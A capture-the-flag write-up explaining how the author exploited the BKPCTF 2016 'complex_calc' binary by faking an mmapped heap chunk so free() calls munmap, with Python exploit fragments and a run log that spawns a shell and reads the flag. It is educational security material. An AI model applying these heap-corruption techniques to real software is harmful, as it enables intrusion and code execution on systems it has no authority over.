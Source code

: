 title: BKPCTF 2016 - Complex Calc
author: hugsy
category: ctf
tags: pwn, gef , ida , bkpctf-2016 , x86 , heap-overflow
date: 2016-03-08 00:00:00
modified: 2016-03-08 00:00:00


The challenge is the sequel to `simple_calc`. If you haven't read our [write-up](/2016/03/07/bkpctf-2016-simple-calc-writeup.html), now is the time 😊


### Info ###

The vulnerable file is
[here](http://s000.tinyupload.com/?file_id=13818394247839189362).

```bash
~ $ file d60001db1a24eca410c5d102410c3311d34d832c
d60001db1a24eca410c5d102410c3311d34d832c: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~ $ checksec.sh --file d60001db1a24eca410c5d102410c3311d34d832c
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   d60001db1a24eca410c5d102410c3311d34d832c
```


### Vulnerability ###

At the very first look, `simple_calc` and `complex_calc` look totally
similar. Both are statically compiled, same protections, the vulnerability is
located at the same spot (i.e. stack overflow with a malloc-ed buffer we fully
control). Let's do some bindiffing!


One of my new toys for quite a few months now is IDA Python plugin
[diaphora](https://github.com/joxeankoret/diaphora) by Joxean Koret (aka
<a class="fa fa-twitter" href="https://twitter.com/matalaz" target="_blank"> matalaz</a>). By diffing then, the issue is immediately visible:

![image_alt](https://i.imgur.com/0tkaNNT.png)

The `free()` function was modified so we cannot benefit from the graceful exit
of the function by simply passing a NULL pointer. Now, `free()` will always
proceed with the address given as first parameter (therefore stored in $rdi).

So let's see how `free()`
works. [Some blogs](https://kitctf.de/writeups/0ctf2015/freenote/) already explain very well how
[Glibc heap is structured](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
and how
[heap](http://phrack.org/issues/57/9.html)
[corruptions](http://winesap.logdown.com/posts/261369-plaid-ctf-2015-plaiddb-writeup)
work. So I will assume you know as well.

To stand on common ground, here is what a heap chunk looks like:

![image_alt](https://i.imgur.com/EVnKlBg.png)

When `free()` is called, some checks are made to know how the chunk must be
deallocated:

   1. If its size is below `MMAP_THRESHOLD` (default 128KB), then the chunk is
      deallocated and inserted into the free chunk doubly linked list. The
      pointers of the list are updated using the `unlink` macro.
   1. If the size is higher than `MMAP_THRESHOLD`, then the chunk was not
      allocated via the `brk`/`sbrk` syscall, but mapped in memory via the
      syscall `mmap`. If this heap chunk is mmaped, then its size will be a
      multiple of 2 (i.e. size & 2 = 2).

This actually shows quite well in the flow graph:

![image_alt](https://i.imgur.com/omGULMz.png)

Since we control what is written in the heap (same method than `simple_calc`),
we can control whether we want to deallocate using `unlink` or `munmap` (simply
by or-ing the QWORD interpreter as the chunk size with 2). If we go for using
the regular deallocator, we need to fake our heap chunk in such a way that it will
pass all the checks performed later on. Any failure on the address will
`abort()` the program, making it enable to reach the `ret` instruction, and
therefore triggering our ROP chain.

On the other hand, the `munmap()` function is actually fairly straight-forward:

```bash
.text:0000000000435670 munmap          proc near               ; CODE XREF: __assert_fail_base+110
.text:0000000000435670                                         ; _nl_load_domain+4C9 ...
.text:0000000000435670                 mov     eax, 0Bh        ; Alternative name is '__munmap'
.text:0000000000435675                 syscall
.text:0000000000435677                 cmp     rax, -0FFFh
.text:000000000043567D                 jnb     __syscall_error
.text:0000000000435683                 retn
.text:0000000000435683 munmap          endp
```

If the syscall fails, it will nicely set $rax to a negative value and
return back to `free()`, which will return (in error as well but we don't care)
to our main loop, which can then return nicely too and trigger our
code. Perfect! Let's go with this!


### Exploitation ###

So we are going to use the arithmetic operators and result locations in the
`.bss` since they are at predictable, bearing in mind that each one of them is
only a DWORD (whereas we are here on x86-64 architecture). We will want to set
the following mapping:

```bash
.bss:00000000006C4A88 add_result      dd ?                    ; <-- previous chunk size
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90 div_operator_1  dd ?                    ; <-- chunk size (need to | 2 for flag IS_MMAPED)
.bss:00000000006C4A94 div_operator_2  dd ?                    ; <--
.bss:00000000006C4A98 div_result      dd ?                    ; <-- free will point @this chunk
.bss:00000000006C4A9C                 align 10h
```

We will point the $rdi used by the `free()` call pointing to `div_result`. But
now which value should we use then for operator_1 and operator_2 ?

Let's go back to `free()` flow graph:

![image_alt](https://i.imgur.com/7ZEy4nD.png)

As we see, several conditions must be filled:

   1. `chunk_size = div_operator_2 | div_operator_1` (and **must** be divisible by 2).
   1. `prev_size  = dword_padding  | add_result`
   1. `0x0fff & ((@prev_size-prev_size) | (prev_size+size&0xfff...ff8)) == 0`

If we passed those checks, $rcx will have the address to `munmap()`, and $rsi
the range to deallocate. `add_result` is at 0x6C4A88 so we must ensure the three
last nibbles end with 0xa88 to nullify the substration. We decide to store in
`add_result` the value 0x0x11111a88 as the addition of 0x11110a88 and 0x1000

```python
    # set add_result
    s.read_until("=> ")
    op1 = 0x11110a88
    op2 = 0x00001000
    do_add(s, op1, op2)
    ok("prev_size=%#x+%#x=%#x" % (op2, op1, op1+op2))
```

Now that we have `prev_size`, we can make up a value for `size` too. But here is
the trick, the value of `size` will end in $rdi when `munmap` syscall will
happen. If we point to a valid address, it will be unmapped and our exploit will
fail. So to be safe, we will use a huge valid and let the kernel throw us away
:) Here we used 0x7fffdeaa0000.

`size = 0x7fffdeaa0000 - 0x11111a88 = 0x9ffffeee578`

Splitting the result into 2 DWORD and we have div_operator_1=0xfffeee578 and
div_operator_2=0x9f.

```python
    # set div_1 and div_2
    s.read_until("=> ")
    op2, op1  = 0x9f, 0xfffeee578 | 2
    do_div(s, op1, op2)
    ok("size=0x%.8x%.8x" % (op2, op1))
```

The rest of the exploit is exactly similar to the one used for `simple_calc`!

Fire up!
```bash
$ ./complex_calc.py                                                                                                                                       [23:43]
[+] Connected to simplecalc.bostonkey.party:5500
[+] Running 47 calculations
[+] Building fake chunk 0x6c4a98
[+] prev_size=0x1000+0x11110a88=0x11111a88
[+] size=0x0000009ffffeee57a
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
cat key
BKPCTF{th3 l4st 1 2 3z}
```

And we get `BKPCTF{th3 l4st 1 2 3z}`

The full exploit is [here](https://gist.github.com/hugsy/7bcb5db17b75a86ae3bd).
